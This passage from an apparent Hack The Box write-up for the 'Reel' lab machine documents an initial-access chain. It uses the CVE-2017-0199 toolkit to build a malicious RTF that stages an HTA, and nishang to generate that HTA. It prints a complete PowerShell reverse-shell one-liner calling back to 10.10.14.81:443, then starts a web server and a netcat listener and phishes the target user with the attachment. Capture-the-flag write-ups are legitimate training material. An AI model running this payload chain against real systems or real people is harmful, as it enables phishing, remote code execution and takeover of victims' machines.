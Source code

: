 ```bash
1 queries in 1 seconds (1.0 queries / sec)
```

It appears that `nico@megabank.local` is indeed a valid user.

`readme.txt` specified that the user would open RTF files. A bit of research revealed [this article by Mcafee](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/an-inside-look-into-microsoft-rich-text-format-and-ole-exploits/) that explores the mechanics of delivering malicious payloads via RTF files. [The CVE-2017-0199 exploit toolkit repository](https://github.com/bhdresh/CVE-2017-0199) is capable of generating a malicious RTF that will stage a remote file and execute it with whatever application is configured in the target's operating system to execute that particular type of file.

Use it to generate malicious RTF file that will stage and execute a malicious HTA file.

```bash
$ python cve-2017-0199_toolkit.py -M gen -w Manual.rtf -u http://10.10.14.81/Manual.hta -x 0
Generating normal RTF payload.

Generated Manual.rtf successfully
```

Use [nishang](https://github.com/samratashok/nishang) to generate the malicious HTA file that will stage and execute a PowerShell one-liner.

```bash
PS /home/tgihf/workspace/htb/boxes/reel/web> Out-HTA -PayloadURL http://10.10.14.81/Manual.ps1 -HTAFilePath Manual.hta
HTA written to Manual.hta.
```

Copy a PowerShell one-liner from [nishang](https://github.com/samratashok/nishang) and modify the listener IP address and port to that of the reverse shell handler. Save it to disk.

```bash
$ cat Manual.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.81',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Start a web server to serve the HTA and PowerShell one-liners.

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Start a reverse shell handler.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

Phish `nico@megabank.com` and attach the malicious RTF file (`Manual.rtf`).
